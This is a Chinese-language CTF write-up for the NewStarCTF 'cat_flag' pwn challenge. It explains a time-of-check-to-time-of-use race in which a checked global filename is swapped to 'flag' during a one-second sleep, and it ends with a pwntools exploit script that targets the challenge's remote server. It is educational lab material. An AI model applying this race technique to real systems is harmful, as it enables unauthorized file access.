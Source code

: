 ```yaml
---
title: buffer_fly
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- race_condition

---
```


NewStarCTF，竞争条件，操作系统中说的共享变量的问题
<!-- more -->

程序中有ls,cat,mv三个功能。其中ls和cat是直接执行system("ls")和system("cat ...")。

不过并不能直接cat flag。程序会检查输入的文件名filename（这是一个**全局变量**，在bss段中）是否出现了"./"，该文件名是否存在。如果没有"./"且文件名存在的话，程序会新开一个线程执行cating函数。

在cating函数中会再次对文件名进行检测，如果文件名是flag的话是不会cat的，但如果不是flag的话，他会先sleep(1)休眠1s，然后再执行system("cat ...")。

这里就要用到程序中的第三个功能mv了，mv可以修改filename（这是一个**全局变量**，在bss段中）。因此如果我们**在cating线程休眠的时候，使用mv修改filename为flag**，那么就可以执行cat flag。

不过我们也要先通过前面的检测，**一开始输入的文件名不能有"./"，不能是flag，也必须要存在**。这时我们可以借助ls功能查看该目录下的文件，发现有个叫backdoor的文件，就把输入的文件名写为backdoor。

exp:

```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='cat_flag'
elf=ELF('./'+filename)
#libc=ELF('')
#p=process('./'+filename)
p=remote('node4.buuoj.cn',28600)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug():
  gdb.attach(p)
  pause()

ru('==>')
sl('2')
ru('cat.')
sl('backdoor')#an exist file
ru('==>')
sl('3')
ru('change.')
sl('flag')

itr()
```